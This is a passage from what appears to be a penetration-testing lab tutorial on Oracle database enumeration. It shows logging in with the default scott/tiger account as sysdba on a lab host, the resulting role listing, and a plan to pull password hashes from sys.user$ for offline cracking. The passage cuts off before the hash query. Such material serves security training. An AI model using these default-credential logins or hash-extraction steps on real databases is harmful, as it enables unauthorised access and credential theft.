 Here, the user `scott` has no administrative privileges. However, we can try using this account to log in as the System Database Admin (`sysdba`), giving us higher privileges. This is possible when the user `scott` has the appropriate privileges typically granted by the database administrator or used by the administrator him/herself.

***

## <mark style="color:red;">**Oracle RDBMS - Database Enumeration**</mark>

{% code title="" %}
```shell-session
mrroboteLiot@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```
{% endcode %}

We can follow many approaches once we get access to an Oracle database. It highly depends on the information we have and the entire setup. However, we can not add new users or make any modifications. From this point, we could retrieve the password hashes from the `sys.user$` and try to crack them offline. The query for this would look like the following:
